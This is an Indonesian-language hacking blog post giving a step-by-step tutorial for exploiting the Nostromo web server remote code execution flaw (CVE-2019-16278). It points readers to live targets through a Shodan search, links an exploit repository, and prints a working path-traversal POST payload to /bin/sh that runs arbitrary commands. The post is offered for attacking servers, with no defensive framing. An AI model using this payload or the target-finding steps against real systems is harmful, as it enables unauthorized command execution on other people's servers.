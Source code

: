 ```yaml
---
title: 'Nostromo - Remote Code Execution CVE-2019-16278'
date: 2019-11-14T11:04:00+01:00
draft: false
---
```


Assalamualaikum Reader !  
  

[![](https://wudiaries.me/2018/04/29/Web-Penetration/web-hacking.jpg)](https://wudiaries.me/2018/04/29/Web-Penetration/web-hacking.jpg)

  
Kali ini w mau ngebagiin tutor. ttg Nostromo eRcE.e (RCE)  
anjay RCE.  
lhsung aja deh :v  
  
\=======================  
Keyword in Shodan : "Nostromo"  
Exploit : [https://git.sp0re.sh/sp0re/Nhttpd-exploits](https://git.sp0re.sh/sp0re/Nhttpd-exploits)  
\=======================  
  
  

[![](https://1.bp.blogspot.com/-jBj9SJVNiKU/Xc0lcxNy-pI/AAAAAAAABjo/53EDd6a4nqAeMOiwrHzNBwKCtXgNI5YvwCNcBGAsYHQ/s640/1.png)](https://1.bp.blogspot.com/-jBj9SJVNiKU/Xc0lcxNy-pI/AAAAAAAABjo/53EDd6a4nqAeMOiwrHzNBwKCtXgNI5YvwCNcBGAsYHQ/s1600/1.png)

  
  
  
  

[![](https://1.bp.blogspot.com/-bKFU5tcVXG4/Xc0lw0ha_nI/AAAAAAAABjw/-YzHAEqLF54Duu265iQRFeGA35ikQsMPQCNcBGAsYHQ/s640/2.png)](https://1.bp.blogspot.com/-bKFU5tcVXG4/Xc0lw0ha_nI/AAAAAAAABjw/-YzHAEqLF54Duu265iQRFeGA35ikQsMPQCNcBGAsYHQ/s1600/2.png)

  
Biasaaaa. ke Burpsuite ya kan :v  
abis tu send to Reapeter  
jan lupa set network di Browser :v  
  
  
  
  
  

[![](https://1.bp.blogspot.com/-xTrLS8LNhcU/Xc0l4ObUVcI/AAAAAAAABj0/dVcCDcVXWFs2e2XDJYcYo0AeaLn8AYEygCNcBGAsYHQ/s640/3.png)](https://1.bp.blogspot.com/-xTrLS8LNhcU/Xc0l4ObUVcI/AAAAAAAABj0/dVcCDcVXWFs2e2XDJYcYo0AeaLn8AYEygCNcBGAsYHQ/s1600/3.png)

  
 Jamu :  
  
  
POST /.%0d./.%0d./.%0d./.%0d./bin/sh  
  
echo  
echo  
command 2>&1  
  
  
  
  
  
Example :  
  
POST /.%0d./.%0d./.%0d./.%0d./bin/sh  
  
echo  
echo  
uname 2>&1  
  
moga aja paham :v  
  
See You next Time ^-^  
Semangat yeee ngeHEKED by nya  
  
  
  
 Wassalamualaikum  
  
\-crusher.